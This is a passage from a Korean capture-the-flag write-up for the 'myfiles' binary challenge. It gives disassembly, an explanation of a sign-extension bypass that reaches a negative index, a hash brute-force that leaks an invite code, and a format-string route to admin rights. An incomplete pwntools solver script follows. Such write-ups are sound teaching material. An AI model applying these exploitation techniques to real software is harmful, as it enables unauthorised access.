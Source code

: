 <br>
```asm
mov     rax, [rbp+var_8]
mov     eax, [rax]
mov     [rbp+var_14], eax
mov     eax, [rbp+var_14]
cwde
cmp     [rbp+var_14], eax
jz      short loc_1717
lea     rdi, aExtraFieldNotS
call    _puts
jmp     locret_184F
```

제목의 길이를 음수로 만들 수 없던 것은  `readZipInfo` 함수의 세 번째 조건문, `v7 = (_DWORD *)(a2 + 26); v6 = *v7; if ( v6 == (__int16)v6 )` 때문입니다. `File name len`이 `0xffff`라고 가정해봅시다. `cwde`에 의해 `eax`가 `0xffffffff`가 되기 때문에 `[rbp-0x14] != eax`가 됩니다. 이를 우회하는 방법은 모순적이게도 `Extra field len`을 사용하는 것입니다. 처음에 `rax`의 형태로 8바이트를 읽어옴을 알 수 있습니다. `rax`가 `0xffffffff`라면 `cwde` 후에도 `0xffffffff`이기 때문에 값이 같습니다. 이렇게 음수 인덱스에 접근할 수 있습니다.

<br>
파일 데이터 전에는 고정된 값 9바이트가 존재합니다. 따라서 `File name len + Extra field len`이 변조된 10바이트짜리 zip 파일을 입력하고 해시 값을 받아오면, 마지막 바이트 브루트포싱을 통해 `invitecode.txt`의 내용을 한 글자씩 알아올 수 있습니다.
`invitecode.txt`를 얻었으니 위의 브레인스토밍 과정을 역으로 따라가면 됩니다. 새로운 사용자를 만들고, `FSB`를 유발하는 zip 파일을 업로드하고, 이를 읽어 `admin` 권한을 부여하는 `FSB` payload를 작동하고 `flag`를 읽습니다.

<br>
- 솔버

```python
from pwn import *
from tqdm import *
import subprocess

context.bits = 64
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

p = remote('myfiles.chal.irisc.tf', 10001)
#p = process('./chal')

def listfiles(idx : int, idx2 : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'? ', str(idx).encode())
    payload = f"[FID={idx2}]  10 "
    p.recvuntil(payload.encode())
    return p.recvline()[:-1].decode()

def createuser(name : bytes, password : bytes):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'? ', invite_code)
    p.sendlineafter(b'? ', name)
    p.sendlineafter(b'? ', password)

def uploadfile(idx : int, z : bytes):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'uncompressed file', z)

def viewfile(idx : int, password : bytes, idx2 : int):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)
    p.sendlineafter(b'? ', str(idx2).encode())

def viewflag(idx : int, password : bytes):
    p.sendlineafter(b'> ', b'6')
```
